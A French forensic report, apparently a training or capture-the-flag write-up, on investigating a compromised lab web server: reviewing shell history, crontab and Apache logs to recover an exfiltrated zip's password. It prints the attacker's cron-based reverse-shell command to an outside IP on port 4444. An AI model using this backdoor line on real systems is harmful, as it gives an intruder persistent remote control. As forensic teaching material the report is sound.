







# Rapport d'analyse

## Préparation

Pour intervenir dans ce cas, au préalable il faudra valider certains points de sécurité :

- [x] La station blanche est prête à accueillir l'élément à analyser.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout réseau.

- [x] La station blanche sur laquelle nous effectuons l'analyse est coupé de tout périphérique externe.

- [x] L'analyse de la machine s'effectue sur un clone virtuel de l'environnement de production.


## Introduction

Le site web Bosch-cyber a été attaqué. l'attaquant aurait récupéré des outils secrets très dangereux. Heureusement l'administration a mis le site eb maintenance. 

###### La mission : déterminer ce qui a été exfiltré par l'attaquant.

## Méthodologie

Dans cette partie seront données les manières d'analyser l'environnement qui hébèrge le site web Bosch-cyber. 

Aussi : un résumé des IOC[^1] sera effectué.

Les points principaux à évaluer sont les suivants : 

* L'historique des commandes passées
* Les logs générés auparavant sur l'activitée menée
* Les accès entrants et sortants sur l'environnement

Les principaux IOC sont alors les suivants :
* Des adresses IP particulières
* Les hash de fichiers malveillants
* des URLs ou noms de domaines suspects

Les IOC trouvés lors de l'analyse seront présentés et expliqué dans la partie suivante.

[^1]: IOC :
*Un indicateur de compromission, en sécurité informatique, est une déviance ou artefact observé sur un réseau ou dans un système d'exploitation qui indique, avec un haut niveau de certitude, une intrusion informatique.*
*Source : [wikipedia.fr](https://fr.wikipedia.org/wiki/Indicateur_de_compromission)*


## Résultats

Dans cette partie sont donnés les résultats de l'analyse complète. On y trouve les données récoltées qui ont fait avancer l'enquête.

##### Partie 1 : découverte de l'environnement

Il a fallut se connecter sur la machine (pour cet analyse via docker) :
```
git clone https://gitlab.com/bosch-forensic/bosch-cyber-leak.git
cd bosch-cyber-leak/
sudo apt install docker.io
sudo apt install docker-compose
cat README.md
```
On nous retourne ceci pour se connecter, un identifiant et un mot de passe :

>docker-compose up -d

>ssh b0sch@127.0.0.1 -p 2222

>9mZzpX7KE6sKAP

On rentre alors ces lignes pour accéder à la machine :
```
docker-compose up -d
ssh b0sch@127.0.0.1 -p 2222
9mZzpX7KE6sKAP
```
Nous sommes maintenant rentrés sur l'environnement, la première chose à faire sera alors de vérifier l'historique des commandes. 

Pour cela taper :
```
history
```



on voit donc qu'il y a un fichier .zip qui a été protégé par un mot de passe "bosch_cyber_tools.zip"
ce mot de passe peut etre lu depuis "/tmp/mypassword" cependant il a été supprimé juste après.
Aussi, nous voyons un ping vers une adresse IP inconnue : 

###### 138.66.89.12

Nous essayons alors de déziper le fichier en vain :

>unzip bosch_cyber_tools.zip 

demande bien un mot de passe que nous n'avons pour l'instant pas à disposition.

Plusieurs commandes sont ensuites passées pour Troobleshooter cet environnement dans lequel nous nous trouvons.

> cat /etc/hosts

>cat /etc/passwd



>cat /var/www/html/index.html

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Maintenance Bosch-Cyber</title>
</head>
<body>
    <p>Sorry for the inconvenience. We'e performing some issues at the moment. We'll be back up shortly!</p>
</body>
</html>
```
Ici nous voyons que le site a bien été mis en maintenance.

```
cat .cache/
cat .bash_history 
cat .bash_logout 
cat .bashrc 
cat .profile 
cat .viminfo 
cat .cache/
```

Ces commandes n'ont rien donné de plus pour la suite de l'enquête. Le bash_history contient la liste des commandes effectuées avant l'analyse et les autres n'ont pas permit de faire avancer le rapport.

En parcourant les dossiers et fichier dans /etc (shadow, passwd et hosts), nous trouvons intéressant et important de vérifier le fichier des taches planifiées.

```
cat /etc/crontab
```



Cette commande ouvre un shell Bash et redirige son entrée/sortie vers l'adresse IP 138.66.89.12 avec le port 4444.

Le Cron job est configuré pour s'exécuter toutes les minutes (*/1 * * * *). Il exécute la commande 

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'.
```
D'après notre analyse, ceci semble être un Backdoor[^2]. Nous avançons de plus en plus dans l'enquête : nous savons que l'IP en question est bien malveillante et devons pousser nos recherche à partir de celle-ci.

[^2]: Backdoor :
*Une backdoor, ou porte dérobée est une fonctionnalité (ici un accès) inconnue de l'utilisateur légitime qui fourni un accès secret au logiciel (ici au contenu du serveur).
*Source : [wikipedia.fr](https://fr.wikipedia.org/wiki/Porte_dérobée)*

Etant sur un serveur web, nous décidons d'aller directement vérifier les logs liés au web, à Apache2 dans ce cas.

```
grep "138.66.89.12" /var/logs/apache2/access.log
```


de nombreux résultats indique pas mal d'interration sur cette IP malveillante. En survolant, nous atteignons des lignes qui rappellent les commandes obtenues dans l'historique. C'est ainsi qu'une ligne attire l'attention :



Sur l'avant dernière ligne, on distingue une commande "echo" avec le contenu du fichier /tmp/mypassword qui contenait le mot de passe et qui a été supprimé.

le mot de passe du fichier .zip est donc :



Nous dézipons le fichier en question via le mot de passe :



## Conclusions

Le mot de passe qui était supprimé de l'environnement a été tout de même récupéré via les logs d'accès dans /var/logs/apache2

L'attaquant s'est donc introduit pour faire remonter ce qu'il voulait (ici, les outils de bosch-cyber) sur une machine distante.

Finalement, le flag est découvert, une question survient : Avons nous trouvé la manière persistante de l'attaquant ?
La réponse est oui, via une tache planifiée dans le fichier crontab expliqué plus haut dans le rapport.

## Recommandation

Il est important de noter que de telles actions (la création de shell inversé vers une machine distante) sont illégales et potentiellement nocives. 
Nous recommandons de remédier impérativement à cette activité malveillante sur le système puis d'enquêter sur cette intrusion dans le serveur.

De plus, protéger le traffic arrivant et sortant de ce serveur web pour éviter à l'avenir d'autres attaques

## Conclusion générale

Lors de cette analyse, nous avons pu constater la présence d'une backdoor dans le système. Via ces commandes nous avons pu établir cette conclusion et diverses recommandation suite à cette intrusion

Les commandes principales retenues :

Commande     | Résultat
:--------| :-----
hitsory | découverte d'une adresse IP malveillante
cat /etc/crontab    | découverte de la backdoor dans les tâches planifiées
grep "138.66.89.12 /var/log/apache2/access.log     | découverte du mot de passe pour dézipper un fichier contenant le flag

Fin du rapport.
_____________________________________________________________


Réalisé le 15/02/2023  13:38 | Par Lucas Bourgeois | Signature : LB

